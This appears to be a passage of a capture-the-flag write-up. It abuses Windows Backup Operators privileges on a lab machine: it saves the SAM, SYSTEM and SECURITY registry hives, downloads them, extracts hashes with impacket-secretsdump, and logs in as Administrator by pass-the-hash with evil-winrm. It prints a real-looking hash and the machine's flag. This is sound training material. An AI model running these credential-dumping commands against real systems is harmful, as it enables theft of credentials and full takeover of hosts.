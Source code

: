 According to [Microsoft docs](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators),this group:

> Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group can’t be renamed, deleted, or removed. By default, this built-in group has no members, and it can perform backup and restore operations on domain controllers. Members of the following groups can modify Backup Operators group membership: default service Administrators, Domain Admins in the domain, and Enterprise Admins. Members of the Backup Operators group can’t modify the membership of any administrative groups. Although members of this group can’t change server settings or modify the configuration of the directory, they do have the permissions needed to replace files (including operating system files) on domain controllers. Because members of this group can replace files on domain controllers, they’re considered service administrators.

This shows up in the form of the `SeBackupPrivilege` and `SeRestorePrivilege`

```apache
whoami /priv
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747293539438/b16a7f17-ae7a-46c5-96c2-a0d60453d9fa.png align="center")

Let’s now dump the registry hives to files and exfiltrate them.

```apache
reg save hklm\sam sam
reg save hklm\system system
reg save hklm\security security
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747293673309/708f3473-7f2c-40cb-9482-da7a986992da.png align="center")

```apache
download sam
download system
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747294100444/51cc97bb-9d8e-4fd9-b696-280ee120eb00.png align="center")

Let’s now dump the hashes.

```apache
impacket-secretsdump -sam sam -system system LOCAL
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747294157151/fd127883-c0cc-49a0-a64a-8f6ca6da3450.png align="center")

We got the Administrator hash, let’s use that to log in.

```apache
evil-winrm -i 10.129.64.6 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747294367314/673e812f-b919-4a22-b284-18a139618d06.png align="center")

Let’s get our root flag now.

```apache
type C:\Users\Administrator\Desktop\root.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747294407934/57994c67-825f-4c0e-82fb-d17ef234159f.png align="center")

Flag: **8f272a073990777e7c9a3798de37b2d3**

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747294603560/3a052ef6-bc33-4dec-94e7-5482ebebc7b5.png align="center")